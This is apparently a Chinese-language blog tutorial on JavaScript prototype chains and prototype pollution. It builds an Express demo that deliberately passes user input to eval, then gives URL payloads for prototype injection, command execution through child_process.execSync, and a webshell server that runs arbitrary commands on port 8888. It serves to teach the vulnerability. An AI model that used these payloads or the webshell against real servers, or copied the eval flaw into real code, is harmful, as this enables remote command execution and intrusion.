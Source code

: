 ### 变量类型

在JavaScript中，有6种原始值分别是：

- `boolean`
- `number`
- `string`
- `undefined`
- `symbol`
- `null`

3种引用类型，分别是：

- 对象 (Object)
- 数组 (Array)
- 函数 (Function)

引用类型都是对象，通过 instanceof 操作符来判断对象的类型
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_51_X2i19C7I.png)
JavaScript instanceof 能判断对象的原理就是判断一个对象与其构造函数是否在同一个原型链上，但其实instanceof用来判断类型并不准确，常用`Object.prototype.toString.call()`来判断数据类型
### 什么是原型，原型链
#### 原型
JavaScript的所有对象(实例)中都包含一个`__proto__`内部属性，这个属性所对应的就是该对象的原型，对象都从原型继承方法和属性
JavaScript的`函数`对象，除了原型`__proto__`属性之外，还预置了`prototype`属性，当`函数`对象作为构造函数创建实例的时候，该`prototype`属性将被作为实例对象的原型`__proto__`
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_51_eSxVzWub.png)
构造函数new的时候发生了什么？
```javascript
var obj = {};
obj.__proto__ = Base.prototype
Base.call(obj)
```

1. 创建一个新的对象obj
2. 将这个空对象的`__proto__`成员指向Base函数对象prototype成员对象
3. Base函数对象的this指针替换成obj，相当于执行Base.call(obj)
4. 如果构造函数显示地返回一个对象，那么这个实例则为返回的对象，否则返回这个新创建的对象。

普通对象的原型
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_51_eh9ElXoQ.png)
函数对象（构造函数）的prototype === 实例对象的原型 
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_51_vSf0bZHL.png)
#### 原型链
任何一个实例对象通过原型链都可以找到它对应的原型对象，并且原型对象上面的实例和方法都是被实例所共享的，一个对象在查找一个方法或者属性时，他会先在自己的对象中找，如果找不到，就会沿着原型链依次向上找，直到最后到Object
> 函数才有`prototype`，实例对象只有`__proto__`，而函数有`__proto__`是因为函数是`Function`对象的实例

在这里我创建一个obj，里面只有 `name`和 `age`属性，然后在其原型上创建`msg`属性，`getMsg` 方法，然后该对象中不存在`msg`属性，`getMsg`方法，但是当需要使用 `msg` 属性，`getMsg` 方法的时候，JavaScript就会沿着原型链去寻找`msg`属性，`getMsg`方法，如果找到了就返回，如果直到顶层object都没有，则返回`undefined`
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_52_InmtrSYv.png)
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_52_q4gfUZ01.png)
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_53_NUlVYAP0.png)
那么是不是我修改了Object的prototype是不是就可以为所欲为了？并不是这样，当对象当前无属性或者方法的时候，才会一层一层通过原型链去查找原型上的方法或属性，当存在该属性或者方法的时候，则会停止向上查找，且直接返回。所以当在原型链上只要有一个原型存在该方法，则不会调用Object原型中的方法。
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_53_lWcsXGvU.png)
### Demo
我使用Node.js 启动一个web环境（Express），代码如下：
```javascript
const express = require('express')
const app = new express()

const obj = {
    getMsg: 'hello world',
    getList: getReadMsg()
}

function getReadMsg(){
    return 'test'
}

Object.freeze(obj)

app.get('/', (req, res) => {
    const resp = eval('obj.' + req.query.test)
    res.send(resp)
})

app.listen( 8081,()=>{
    console.log('running on 8081 port!')
})
```
注意，在这里使用了eval方法，（eval方法会使用JavaScript解释该字符串），且对象表示法使用了点表示法取对象的属性或者方法
可以看见，test 参数处可拼接属性值，并使用对象点表示法，执行对象。
在这里有`Object.freeze(obj)`，这里表示冻结该对象，不允许对对象属性进行修改
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_53_7SkWR9Il.png)
#### payload_1
针对obj.getMsg / obj.getList 的原型进行构造payload
```
?test=getMsg.__proto__.secFunc=function(){return+"secTest,hello+world"}
?test=getMsg.__proto__.secFunc()
=> 
?test=getMsg.__proto__.secFunc=function(){return+"secTest,hello+world"}()
```
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_53_lxGCKBWj.png)
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_54_kc7LEVx9.png)
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_54_btOP71gR.png)
原理：
obj.getMsg 的类型是String类型，字符串方法全都源自其原型上的方法，那么将secFunc方法写在其原型上，然后再调用
```javascript
// 这里的secFunc 是一个 Function
obj.getMsg.__proto__.secFunc = function(){return "secTest,hello world"}
// 调用该方法
obj.getMsg.secFunc() 
// 或者 指定第一层原型上的secFunc方法
obj.__proto__.secFunc()
// 又因为以下表达式会返回一个function，那么在JavaScript里，只要返回值是function在其后加上括号即可立即执行方法
obj.getMsg.__proto__.secFunc = function(){return "secTest,hello world"}()
```
#### payload_2
存在Object.freeze 方法，不允许在object里添加属性，那么给他的原型添加方法并调用
```
?test=__proto__.secTest=function(){return "secTest,hello world"}
?test=secTest()
=> 
?test=__proto__.secTest=function(){return "secTest,hello world"}()
```
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_54_wHvmquft.png)
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_54_sQuHjgmz.png)
#### payload_3
向该对象添加立即执行函数
```
?test=secTest=function(){return "secTest,hello world"}()
```
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_55_orykxvQZ.png)
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_55_ZK5inU39.png)
### 漏洞利用
以该demo作为漏洞环境，使用node.js的child_process模块，完成命令执行
#### 0x1 命令执行
```
?test=secTest=function(){return+require('child_process').execSync('whoami')}()
```
这里的require('child_process').execSync(command)中的execSync是指同步执行，并将结果返回回来，如果是使用exec方法，在JavaScript中会将其构造成异步任务，取数据要从promise/或者使用回调函数取，对于攻击者并不友好，所以我们使用时间换效率的方式来完成命令执行
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_56_Z2k1nmDz.png)
#### 0x2 如何向Node.js 服务上传webshell
关于Node.js 上传webshell我查阅了很多文档，其实都没有说得很明白，我以前是搞web开发的，所以还是或多或少了解JavaScript的特性，node.js启动的web服务，其实和serlvet，apache有很明显的区别，servlet，apache等都可以解析相应的`.php`,`.jsp`文件，而虽说node.js也有模板语法，但是Node只解析相应的模板文件，这种模板文件都是静态文件，只是提供数据渲染，而不是动态执行，所以基于node.js，python的模板解析上传可解析的文件，其实是不奏效的，并不能执行命令，因为node.js，python启动的web服务，是通过进程启动，所以我们要使其执行应该使用js文件，那么要达成可视化的webshell，通过这个demo，使用命令执行，启动一个新的端口，来执行命令

思路01
```
?test=getMSg;Reflect.construct(Function,[res.send(require('child_process').execSync('whoami'))])
```
分号用于换行，在ESlint中，是舍弃了分号，但是如果没有较好的编码规范或者良好的打包方式，如果将代码写成一行，则会造成代码不可读
Reflect是JavaScript的一个内置对象，Reflect.construct() 方法的行为有点像 new 操作符 构造函数 ， 相当于运行 new target(...args)
语法如下：
Reflect.construct(target, argumentsList[, newTarget])
target为Function，argunmentList则为需要传入的方法，再此处就将结果返回回来，在这里就可以看见我们执行了whoami并回显回来了
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_56_rit8HjEY.png)
在未使用return 返回结果的时候，使用该方式发现又可以代码执行，那么再启动一个端口，用于执行命令，就达到了webshell的功能
这里我图方便没有使用nodejs的http模块启动，而是使用express模块执行（需要下载express库）
代码
```javascript
const express_1 = require('express')
const app_1 = new express_1()
app_1.get('/', (req_1, res_1)=>{
    res_1.header('Content-Type','text/html')
    res_1.send(require('child_process').execSync(req_1.query.cmd))
})
app_1.listen('8888')
```
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_57_PTZrs1dy.png)
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_57_3vBxpTwP.png)
![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_57_6TvOdEgh.png)
